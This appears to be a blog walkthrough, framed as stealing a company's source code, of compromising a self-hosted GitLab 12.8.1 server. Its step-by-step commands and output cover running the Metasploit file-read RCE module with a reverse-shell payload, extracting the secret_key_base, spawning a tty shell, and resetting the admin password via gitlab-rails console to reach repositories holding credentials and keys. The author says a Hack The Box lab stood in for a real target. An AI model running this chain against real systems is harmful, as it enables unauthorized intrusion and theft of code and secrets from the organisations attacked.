 ```yaml
---
layout: default
---
```


### Steal project Source Code in 60 seconds

----------

![title](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/title.jpg)

----------

The journey starts with Company Gitlab CI with open register functional that i got from the rsource company list , Gitlab is self hosted on barametal hosting. The Current version of the gitlab-ce is vulnerable to LFI and RCE exploiting the RCE and getting initial shell in a server , Changing the admin account with github-rails console and login as him on gitlab. Got the private credentials. keys in a project-repo.

For notes used test env as HTB Machine - Laboratory because real env under NDA.

####  Gitlab CI resource

And i can see that Gitlab is hosted. I saw open Register function and Try do it!

----------

![register](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/register.jpg)

----------

Now i registered myself as oleksii and logged in

----------

![login](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login.jpg)

----------

Didn’t see anything good and juicy then i just go to https://gitlab.site.io/help

----------

![version](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/version.jpg)

----------

So its 12.8.1 , so searched a bit about it on google and got so many CVEs. And on rapid7.com site saw info about vulnerabilities, it was disclosed few months ago (Created 12/10/2020) and was about LFI & RCE. The RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0.

This picture in Company Gitlab CI says a lot:)

----------

![asap](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/asap.jpg#center)

----------

#### RCE in the gitlab

Now i can that i exploitetion RCE using msfconsole tool https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce because exploit was development and added it to exploit list. 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > use exploit/multi/http/gitlab_file_read_rce
msf6 exploit(multi/http/gitlab_file_read_rce) > show options 

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               
   ----             ---------------                                               
   USERNAME         oleksii@test.test                                             
   PASSWORD         oleksii@test.test                                             
   RHOSTS           10.10.10.*                                                         
   RPORT            443                                                           
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
   TARGETURI        /users/sign_in                                                
   VHOST            gitlab.site.io                                                

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.*       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Exploitation RCE vulnerability: 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > exploit 
[-] Handler failed to bind to 10.10.14.*:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user oleksii
[*] Created project /oleksii/Dyb4bxA6
[*] Created project /oleksii/L8SKsN52
[*] Created issue /oleksii/Dyb4bxA6/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210102134743_default_10.10.10.*_gitlab.secrets_489388.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /oleksii/Dyb4bxA6
[*] Deleted project /oleksii/Dyb4bxA6
[*] Attempting to delete project /oleksii/L8SKsN52
[*] Deleted project /oleksii/L8SKsN52

Servers down wait when ut give up and add first ls -la command rezult ;) Free HTB account, ok.
```

Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

#### Resetting admin password

Now since the gitlab is installed i can spawn a gitlab-rails console and reset the admin password , and check who is admin. Resetting admin password offical document link https://docs.gitlab.com/12.10/ee/security/reset_root_password.html

Used command from this doc I could reset admin password. Start a Ruby on Rails console with this command:
```
 gitlab-rails console -e production
```
Wait until the console has loaded.

There are multiple ways to find your user. You can search for email or username.
```
  user = User.where(id: 1).first
```

or

Other type get username and email without Gitlab authentification is use api https://gitlab.site.io/api/v4/users/1 

Now you can change your password:
```
 user.password = 'secret_pass'
 user.password_confirmation = 'secret_pass'
```
It’s important that you change both password and password_confirmation to make it work.

Don’t forget to save the changes.
```
 user.save!
```
Exit the console and try to login with your new password.

#### Login as admin on gitlab

Now can login as admin - dexter : secret_pass and can see all repos with credentials and keys. 

So now see how can steal project Source code in 60 seconds because I think If you repeat all command from this notes then spend no more than 60 second.in 60 seconds bacouse I think If you repeat all command from this notes and spend no more than 60 second. 




 